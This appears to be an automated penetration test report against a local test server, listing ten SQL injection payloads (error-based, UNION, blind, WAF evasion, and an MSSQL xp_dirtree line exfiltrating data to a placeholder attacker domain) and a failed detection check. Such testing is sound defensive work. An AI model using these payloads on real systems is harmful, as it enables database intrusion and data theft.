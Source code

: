 
# ⚔️🛡️ Automated Penetration Test Report

- **Test Execution Time:** 2025-10-10 10:16:36 UTC
- **Target URL:** `http://127.0.0.1:8088`

## 🏁 Executive Summary

This report details the results of an automated SQL Injection attack and verification workflow.

- **Attack Scenarios Executed:** 10
- **Successful Attacks:** 2
- **Attack Detection Verified:** ❌

**Overall Assessment:**
**🔴 CRITICAL FAILURE: The system was successfully attacked, but the detection mechanisms FAILED to log the event. Immediate investigation is required.**

## 🔴 Red Team: Attack Phase Results

| Status | Technique | Scenario | Payload |
| :----: | --------- | -------- | ------- |
| ✅ | Error-Based | 기본 SQL Injection (Tautology) | `'` |
| ✅ | Error-Based | MySQL 오류 기반 버전 정보 유출 (EXTRACTVALUE) | `' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT @@version)))--` |
| ❌ | UNION-Based | UNION 공격을 위한 컬럼 수 확인 (ORDER BY) | `' ORDER BY %d--` |
| ❌ | UNION-Based | MySQL/PostgreSQL 테이블 정보 유출 (UNION + information_schema) | `' UNION SELECT NULL, table_name, table_schema, NULL FROM information_schema.tables--` |
| ❌ | Boolean-Based | 불리언 기반 블라인드 SQLi (참/거짓 조건 확인) | `' AND 1=%d--` |
| ❌ | Time-Based | MySQL 시간 기반 블라인드 SQLi (SLEEP) | `' AND IF((%s), SLEEP(5), 0)--` |
| ❌ | Time-Based | MSSQL 시간 기반 블라인드 SQLi (WAITFOR DELAY) | `'; IF (%s) WAITFOR DELAY '00:00:05'--` |
| ❌ | DNS-Exfiltration | MSSQL DNS Exfiltration (xp_dirtree) | `'; EXEC master..xp_dirtree '\\%s.<ATTACKER_DOMAIN>\foo'--` |
| ❌ | Second-Order | 2차 SQL Injection (Stored SQLi) | `Admin'--` |
| ❌ | WAF-Evasion | WAF 우회를 위한 공백 대체 (주석) | `UNION/**/SELECT/**/user,password/**/FROM/**/users` |

## 🔵 Blue Team: Verification Phase Results

### Impact Analysis (Blast Radius)
- **Check:** Data Tampering | **Status:** NOT_APPLICABLE | **Details:** NOT_APPLICABLE: No data tampering payloads were executed in this test run.

### Detection Verification
- **Check:** Log Existence | **Status:** FAILURE | **Details:** FAILURE: Expected at least 2 'SQL_INJECTION_ATTEMPT' events, but found only 0.
